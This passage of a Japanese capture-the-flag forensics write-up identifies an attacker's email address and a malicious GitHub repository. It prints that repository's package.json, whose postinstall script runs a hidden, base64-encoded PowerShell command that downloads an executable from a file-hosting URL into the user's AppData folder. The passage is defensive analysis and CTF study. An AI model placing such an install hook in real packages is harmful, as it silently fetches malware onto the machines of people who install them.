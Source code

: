 次の質問は以下の通りであった。  
```
What is the email of the attacker?
Input:
```
攻撃者のメールアドレスを探せということらしい。  
幸いにも先ほどと同じファイルの中に怪しいメールアドレス`masmoudim522@gmail.com`があった。  
次の質問は以下の通りであった。  
```
What is the URL that the attacker used to deliver the malware to the victim?
Input:
```
攻撃者がマルウェアを運んだURLを答えろとのことらしい。  
先ほどと同じファイルのメールを一つずつ確認すると、以下のような怪しいものがあった。  
![ftk4.png](images/ftk4.png)  
`https://github.com/lmdr7977/student-api`が得られたが不正解のようだ。  
リポジトリの中身を見てやると怪しいファイルが複数あるが、`package.json`の中のbase64されたスクリプトにマルウェアの配布先が含まれていた。  
```bash
$ ls
index.js  package-lock.json  package.json  proc.js
$ cat package.json
{
  "name": "windows",
  "version": "1.0.0",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "postinstall": "powershell -NoLogo -NoProfile -WindowStyle Hidden -EncodedCommand \"JAB3ACAAPQAgACIASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACIAOwAKACQAdQAgAD0AIAAiAGgAdAB0AHAAcwA6AC8ALwB0AG0AcABmAGkAbABlAHMALgBvAHIAZwAvAGQAbAAvADIAMwA4ADYAMAA3ADcAMwAvAHMAeQBzAC4AZQB4AGUAIgA7AAoAJABvACAAPQAgACIAJABlAG4AdgA6AEEAUABQAEQAQQBUAEEAXABzAHkAcwAuAGUAeABlACIAOwAKAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAbwA=\""
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "description": "",
  "dependencies": {
```